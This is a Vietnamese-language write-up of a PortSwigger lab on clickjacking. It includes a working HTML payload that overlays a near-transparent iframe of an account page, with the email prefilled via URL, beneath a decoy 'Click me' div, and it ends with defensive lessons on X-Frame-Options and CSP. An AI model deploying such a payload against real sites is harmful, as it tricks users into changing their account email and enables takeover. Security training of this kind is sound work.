




# Write-ups: Clickjacking with form input data prefilled from a URL parameter

### Tổng quan
Khai thác lỗ hổng clickjacking trong ứng dụng, nơi trang `/my-account` cho phép điền trước email qua tham số URL (`email=...`) và không có bảo vệ chống nhúng iframe như header `X-Frame-Options` hoặc `Content-Security-Policy` (CSP). Kẻ tấn công nhúng trang `/my-account` với email điền trước vào iframe trong Exploit Server, sử dụng div giả mạo ("Click me") đặt chồng lên nút "Update email" để lừa người dùng nhấp, cập nhật email thành giá trị do kẻ tấn công kiểm soát, hoàn thành lab.

### Mục tiêu
- Khai thác clickjacking bằng cách nhúng trang `/my-account` với email điền trước qua URL vào iframe, đặt div giả mạo lên nút "Update email", lừa người dùng nhấp để cập nhật email và hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**
- Đăng nhập bằng tài khoản `wiener`:`peter` và truy cập `/my-account`:
- **Quan sát**:
    - Trang `/my-account` có form update email, cho phép điền trước email qua tham số email trong URL.
    - Nhấp nút "Update email" gửi yêu cầu POST với email điền trước, có CSRF token.
    - Response header không có `X-Frame-Options` hoặc CSP, cho phép nhúng iframe:
        

- **Kiểm tra khả năng nhúng iframe**
    - Tạo payload kiểm tra trong Exploit Server để xác minh khả năng nhúng trang `/my-account`:
        ```html
        <iframe src="https://0a0f008c0364d63681d0f279006500f4.web-security-academy.net/my-account"></iframe>
        ```
    - Store và view exploit:
        - Trang `/my-account` hiển thị trong iframe mà không bị chặn, xác nhận lỗ hổng clickjacking:
            

2. **Khai thác (Exploitation)**
- Tạo payload trong Exploit Server để lừa người dùng nhấp vào nút "Update email" với email điền trước:
    ```html
    <style>
        iframe {
            position:relative;
            width:1000px;
            height: 700px;
            opacity: 0.00001;
            z-index: 2;
        }
        div {
            position:absolute;
            top:465px;
            left:70px;
            z-index: 1;
        }
    </style>
    <div>Click me</div>
    <iframe src="https://0ac900230344bcdc80bb0399009f00c4.web-security-academy.net/my-account?email=aaaa%40gmail.com"></iframe>
    ```
    
- **Ý tưởng payload**:
    - Iframe nhúng `/my-account` với email điền trước (`aaaa@gmail.com`), div "Click me" đặt chồng lên nút "Update email" để lừa nhấp, cập nhật email.

- Gửi payload đến nạn nhân qua "Deliver exploit to victim" của Exploit Server:
    - **Kết quả**:
        - Khi nạn nhân (đã đăng nhập) nhấp vào "Click me", form cập nhật email được gửi với `email=aaaa@gmail.com` và CSRF token từ phiên của họ, cập nhật email thành công và hoàn thành lab.
            

### Bài học rút ra
- Hiểu cách khai thác clickjacking bằng cách nhúng trang `/my-account` với email điền trước qua URL vào iframe, sử dụng div giả mạo để lừa người dùng nhấp vào nút "Update email", tận dụng việc thiếu bảo vệ chống nhúng iframe.
- Nhận thức tầm quan trọng của việc triển khai header `X-Frame-Options: DENY` hoặc `Content-Security-Policy: frame-ancestors 'none'` để ngăn nhúng iframe và kiểm tra an toàn tham số URL để bảo vệ ứng dụng khỏi các cuộc tấn công clickjacking.

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác clickjacking với dữ liệu form điền trước qua tham số URL, nhấn mạnh tầm quan trọng của việc sử dụng X-Frame-Options hoặc CSP và kiểm tra an toàn tham số URL để bảo vệ ứng dụng. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 8/2025.*